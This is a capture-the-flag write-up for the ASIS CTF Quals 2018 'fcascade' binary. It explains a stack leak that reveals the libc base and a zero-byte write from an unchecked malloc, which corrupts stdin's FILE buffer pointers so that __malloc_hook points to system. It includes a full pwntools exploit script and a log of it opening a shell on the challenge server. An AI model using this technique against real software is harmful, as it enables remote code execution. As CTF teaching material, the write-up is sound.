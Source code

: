 ```yaml
---
layout: post
category: Pwn
title: ASIS CTF Quals 2018 fcascade
tags: 
    - kowu
---
```


We were only provided with the binary. A first look at the challenge revealed an obvious memory leak (in the 'leak' function).
It was reading input without zero terminating into a buffer on the stack and printing it out afterwards.
We can dump some old stack content with this method. On my local machine I found out that one interesting address in the dump belongs to libc's `__libc_start_main_ret` and we can use it to retrieve libc's base address.
Also a [libc database search](https://libc.blukat.me/?q=__libc_start_main_ret%3A830) revealed that we propably have a `libc6_2.23-0ubuntu[3,7,9,10]_amd64` on the remote target. So far so good.



Besides the 'leak' function there was also a 'ccloud' one.
```c
void ccloud()
{
  size_t size;
  void *buf;

  for (buf = 0LL;;free(buf))
  {
    write(1, "> ", 2uLL);
    _isoc99_scanf("%lu", &size);
    getchar();
    buf = malloc(size);
    write(1, "> ", 2uLL);
    read(0, buf, size);
    *((_BYTE *)buf + size - 1) = 0;
  }
}
```
The bug here resides in the nonexistent return value error handling of malloc. If malloc returns zero, for example if there isn't enough space, the follow up read will fail as well (but not crash). Nevertheless `*((_BYTE *)buf + size - 1) = 0;` will write a zerobyte at `size - 1`. So we can write to a location of our choice! But how to turn this into RCE? The answer lies in how file streams are handled in glibc. Let's take a look at the definitions.
```c
struct _IO_FILE
{
  int _flags;                /* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;        /* Current read pointer */
  char *_IO_read_end;        /* End of get area. */
  char *_IO_read_base;        /* Start of putback+get area. */
  char *_IO_write_base;        /* Start of put area. */
  char *_IO_write_ptr;        /* Current put pointer. */
  char *_IO_write_end;        /* End of put area. */
  char *_IO_buf_base;        /* Start of reserve area. */
  char *_IO_buf_end;        /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```
`_IO_buf_base` and `_IO_buf_end` are of special interest for us. They define the boundaries of the filestream's buffer.

![m1](/assets/img/asis_fstream.png)

If we can overwrite the LSB of `_IO_buf_base` with a zero, we are able to overwrite all the red marked parts of the structure by the next call of scanf. We then simply overwrite the base and end pointers with an address range of our choice and can go get a shell. I used the malloc hook for this purpose. To turn `malloc(size)` into a `system("/bin/sh")` scanf needs to succesfully parse a number wich represents the memoryaddress containing the '/bin/sh' string. As the IO buffer is consuming all it's bytes first before reading new ones, it is sufficient to place the number string for fscanf somewhere at the end in the overwritten structure where it doesn't bother (it doesn't seem to bother `_IO_backup_base`). When all bytes are consumed by scanf and getchar new bytes are read at the location of our choice (malloc hook) and the next malloc call will result in a shell.

```python
from pwn import *

# __libc_start_main_ret 830 -> libc6_2.23-0ubuntu[3,7,9,10]_amd64
offset___libc_start_main_ret = 0x020830
offset___IO_2_1_stdin_ = 0x3c48e0
offset_system = 0x045390
offset_str_bin_sh = 0x18cd57


def leaklibc(r):
    r.send("11010110")
    r.recvuntil("> ")
    r.send("A" * 0x98)
    r.recvn(0x98)
    res = r.recvuntil("> ")[:-2]
    res = res + '\x00' * (8 - len(res))
    res = struct.unpack("<Q", res)[0] - offset___libc_start_main_ret
    r.send("11111111")
    r.recvuntil("> ")
    return res


def pwn(r):
    r.recvline()
    r.recvuntil("> ")
    libcbase = leaklibc(r)
    log.info("libc {:x}".format(libcbase))
    _IO_2_1_stdin_ = libcbase + offset___IO_2_1_stdin_

    r.send("10110101")
    r.recvuntil("> ")
    r.send(
        str(_IO_2_1_stdin_ + 0x38 + 1) + "\n" +         # overwrites LSB of _IO_buf_base
        struct.pack("<Q", _IO_2_1_stdin_ + 0x83) * 3 +  # partial new _IO_FILE struct
        struct.pack("<Q", _IO_2_1_stdin_ + 0x220) +     # new buf_base
        struct.pack("<Q", _IO_2_1_stdin_ + 0x240) +     # new buf_end
        "\x00" * 8 + str(libcbase + offset_str_bin_sh)  # number for scanf to parse
    )
    r.recvuntil("> > > ")
    r.send(struct.pack("<Q", libcbase + offset_system) * 4)
    r.interactive()


if __name__ == '__main__':
    pwn(remote('178.62.40.102', 6002))
```
shell :)

```
[x] Opening connection to 178.62.40.102 on port 6002
[x] Opening connection to 178.62.40.102 on port 6002: Trying 178.62.40.102
[+] Opening connection to 178.62.40.102 on port 6002: Done
[*] libc 7f0e51e36000
[*] Switching to interactive mode
> > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > 
cat /home/pwn/flag
ASIS{1b706201df43717ba2b6a7c41191ec1205fc908d}
```
